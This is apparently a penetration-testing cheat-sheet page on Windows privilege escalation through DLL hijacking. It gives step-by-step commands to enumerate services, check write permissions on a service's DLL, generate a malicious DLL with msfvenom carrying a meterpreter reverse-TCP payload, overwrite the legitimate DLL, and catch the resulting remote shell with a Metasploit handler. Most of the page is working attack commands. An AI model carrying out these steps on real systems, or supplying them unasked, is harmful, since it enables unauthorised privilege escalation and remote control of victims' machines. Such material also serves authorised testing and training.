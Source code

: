 ```yaml
---
title: Windows PrivEsc with DLL Hijacking
description: If we found running services using netstat or Get-Process, identify the executable that service is running and reversing the file. If the executable loads some DLL, we can overwrite the DLL to execute arbitrary code. 
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2024-04-01
draft: false
---
```


## Exploit

### 1. Enumerate Services (Processes)

At first, list running processes and find interesting ones.

```powershell
tasklist
Get-Process
ps
```

### 2. Identify the Service

```powershell
sc qc "example-service"
```

With the command above, we can see the path of the executable which runs the process.  
To see what DLLs are loaded on the executable, disassemble/decompile it with `strings` command, `WinDbg`, `x64dbg`, or online tools such as `Decompiler Explorer`.

### 3. Check Write Permission of DLL

Find the DLL file on target machine, then check if we have write permission for the file.

```bash
icacls \path\to\example.dll
```

### 4. Create Malicious DLL

If we have write permission, we can override the `.dll` file.  
So create a malicious DLL using `msfvenom` in local machine:

```bash
# Replace 10.0.0.1 with your local ip
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll -o evil.dll
```

After generating our `evil.dll`, replace the original DLL with this on target machine:

```powershell
cp evil.dll \path\to\example.dll
```

Now start a TCP listener in local machine.

```bash
msfconsole
msf> use exploit/multi/handler
msf> set payload windows/x64/meterpreter/reverse_tcp
# Replace 10.0.0.1 with your ip
msf> set lhost 10.0.0.1
msf> set lport 4444
msf> run
```

When the service runs, our malicious DLL is loaded and the payload is executed.  
We may get a shell.

